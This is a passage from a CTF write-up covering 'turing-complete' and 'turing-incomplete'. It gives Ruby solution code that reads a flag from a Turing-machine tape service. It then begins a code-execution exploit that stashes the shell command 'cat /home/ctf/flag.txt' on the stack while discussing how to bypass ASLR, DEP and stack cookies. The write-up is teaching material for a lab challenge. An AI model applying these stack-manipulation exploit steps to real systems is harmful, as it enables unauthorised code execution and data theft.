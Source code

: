 Since the flag is on the tape, the challenge is straight forward - just read it! That's where' `turing-incomplete` is going to vary :)

Here is my solution with comments:

```ruby
# Connect to the service
s = TCPSocket.new(host, port)

# Read the instructions
s.gets()

# Skip the part of the tape with boring words
1.upto(40) do
  s.write(RIGHT)
end

# Read each character, move right, and convert it to a character
flag = 1.upto(expected_flag().length).map do
  s.write(PRINT + RIGHT)
  s.read(8).to_i(2).chr
end.join
```

## `turing-incomplete`

`turing-incomplete` is exactly the same as `turing-complete`, but with one exception: the flag isn't loaded into the binary. And that's kind of a big deal, because now you have to get code execution!

I also compiled it with all the usual security protections, so you have to overcome ASLR and DEP and stack cookies and everything. But, since we have easy read/write up the stack, those can all be bypassed pretty easily. I also provided a copy of the appropriate `libc.so.6` so you don't have to grab your own copy.

You can grab the solution on the GitHub release, but I'll show and explain each part of it below.

### Stash the command

First, we need to stash a shell command (we're going to use `cat /home/ctf/flag.txt`):

```ruby
# Small offset to align us
s.write(RIGHT * 0x3)

# Use some unused stack space to store our command for later
s.write(RIGHT * 1000)

# Write the command to the stack, one byte at a time
COMMAND = "cat /home/ctf/flag.txt\0"
COMMAND.bytes.each do |b|
  write_8_bits_right(s, b)
end

# Go backwards - this rewinds to a point on the stack where we can reliably find
# a stack reference
s.write(LEFT * (1000 + COMMAND.length - 132))
```
